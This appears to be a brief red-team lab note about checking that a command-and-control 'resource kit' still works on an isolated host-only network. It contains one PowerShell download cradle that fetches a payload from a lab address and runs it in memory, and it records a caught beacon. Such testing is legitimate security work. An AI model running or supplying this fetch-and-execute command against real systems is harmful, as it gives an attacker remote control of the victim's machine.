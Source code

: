 made sure `Host Only` networking is occuring  before testing

executing `iex(iwr http://192.168.127.129/a -useb)`
![[Pasted image 20250317151315.png]]
caught beacon successfully proving the `resource kit` still works
![[Pasted image 20250317151351.png]]